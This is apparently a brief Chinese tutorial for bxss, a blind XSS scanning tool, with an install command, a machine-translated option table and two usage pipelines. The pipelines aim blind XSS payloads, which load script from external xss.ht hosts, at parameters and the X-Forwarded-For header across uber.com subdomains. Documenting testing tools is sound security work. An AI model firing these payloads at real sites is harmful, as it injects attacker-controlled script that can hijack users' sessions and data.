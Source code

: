 <center>Bxss盲xss扫描</center>





[toc]









## Bxss盲xss扫描

> Blind XSS Scanner 是一种可用于扫描 Web 应用程序中的盲 XSS 漏洞的工具。
>
> [github](https://github.com/ethicalhackingplayground/bxss)







## 1. 安装

```shell
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

参数

|                       |                                |            |
| --------------------- | ------------------------------ | ---------- |
| 争论                  | 描述                           | 默认       |
| `-appendMode`         | 将有效载荷附加到参数           |            |
| `-concurrency int`    | 设置并发                       | 三十       |
| `-header string`      | 设置自定义标头                 | “用户代理” |
| `-headerFile string`  | 包含要测试的标头的文件路径     |            |
| `-parameters`         | 测试盲xss的参数                |            |
| `-payload string`     | 盲目XSS载荷                    |            |
| `-payloadFile string` | 包含要测试的有效载荷的文件路径 |            |





### 2.使用

```shell
# 参数中的盲xss
subfinder uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters

# x-forwarded-for中xss
subfinder uber.com | gau | bxss -payload '"><script src=https://z0id.xss.ht></script>' -header "X-Forwarded-For"
```


